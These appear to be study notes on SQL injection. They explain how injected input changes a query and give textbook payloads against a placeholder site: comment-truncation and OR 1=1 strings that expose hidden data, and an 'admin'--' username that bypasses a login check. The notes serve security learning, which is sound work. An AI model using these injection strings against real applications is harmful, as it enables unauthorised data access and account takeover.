 # SQL injection

* SQLi - web security vulnerability; allows attacker to interfere with queries made by app to database.

* SQLi allows attacker to view data they are not supposed to retrieve; they can modify/delete this data, or escalate it to compromise the server or perform a denial-of-service attack.

* SQLi examples:

  * Retrieving hidden data:

    * Suppose the URL for a website is ```https://insecure-website.com/products?category=Gifts```. For this, the SQL query would be like:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```

    * The attacker can construct an attack like ```https://insecure-website.com/products?category=Gifts'--```. This gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

    -- acts as a comment in the query
    ```

    * The attacker can also use ```https://insecure-website.com/products?category=Gifts'+OR+1=1--```, which gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
    ```

  * Subverting app logic:

    * For app login, suppose the following SQL query is used:

    ```sql
    SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    ```

    * The attacker can login without password by using the username ```admin'--``` in order to cut short the query:

    ```sql
    SELECT * FROM users WHERE username = 'admin'--' AND password = ''
    ```
